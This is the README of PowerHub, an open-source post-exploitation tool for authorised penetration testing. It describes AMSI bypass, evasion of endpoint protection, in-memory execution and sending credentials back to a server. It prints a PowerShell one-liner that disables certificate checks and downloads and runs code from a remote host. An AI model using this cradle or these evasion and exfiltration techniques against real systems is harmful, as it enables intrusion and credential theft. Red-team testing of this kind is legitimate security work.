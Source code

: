 PowerHub
========

PowerHub is a convenient post exploitation tool for PowerShell which aids a
pentester in transferring data, in particular code which may get flagged by
endpoint protection. Features:

* Fileless
* Stateless
* Cert pinning
* String "obfuscation" by RC4 encryption
* Choose your AMSI Bypass
* Transparent aliases for in-memory execution of C# programs

![PowerHub Webapp](docs/img/powerhub-webapp.png)
![PowerHub Webapp](docs/img/powerhub-sharphound.png)

During an engagement where you have a test client available, one of the
first things you want to do is run SharpHound, Seatbelt, PowerUp,
Invoke-PrivescCheck or PowerSploit. So you need to download the files,
mess with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet, via the command line or the web
interface. PowerHub also helps with collaboration in case you're a small
team.

Here is a simple example (grab information about local groups with PowerView
and transfer it back):

```ps1con
PS C:\Users\avollmer> [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$Nxois='bZeVBC4vZfakT5SmCcaFam6IRY6UNLnC';$Plukgmio=New-Object Net.WebClient;IEX $Plukgmio.DownloadString('https://192.168.11.2:8443/')
  _____   _____  _  _  _ _______  ______ _     _ _     _ ______
 |_____] |     | |  |  | |______ |_____/ |_____| |     | |_____]
 |       |_____| |__|__| |______ |    \_ |     | |_____| |_____]
2.0.0                       written by Adrian Vollmer, 2018-2024
Run 'Help-PowerHub' for help
PS C:\Users\avollmer> Get-HubModule PowerView

Name   : /home/avollmer/.local/share/powerhub/modules/PowerSploit/Recon/PowerView.ps1
Type   : ps1
N      : 205
Loaded : True
Alias  :

PS C:\Users\avollmer> Get-LocalGroup | PushTo-Hub -Name groups.json
```

Documentation
=============

Read the docs [here](https://adrianvollmer.github.io/PowerHub/).

* **Installation:** <https://adrianvollmer.github.io/PowerHub/latest/installation.html>
* **Usage:** <https://adrianvollmer.github.io/PowerHub/latest/usage.html>
* **Contributing:** <https://adrianvollmer.github.io/PowerHub/latest/contrib.html>
* **Changelog:** <https://adrianvollmer.github.io/PowerHub/latest/changelog.html>


Credits
=======

PowerHub is partially based on the awesome work of zc00l, @am0nsec, mar10,
p3nt4. And of course, it would be nothing without @harmj0y,
@mattifestation and the many other contributors to
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

Thanks!

Author and License
==================

Adrian Vollmer, 2018-2024. MIT License.

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
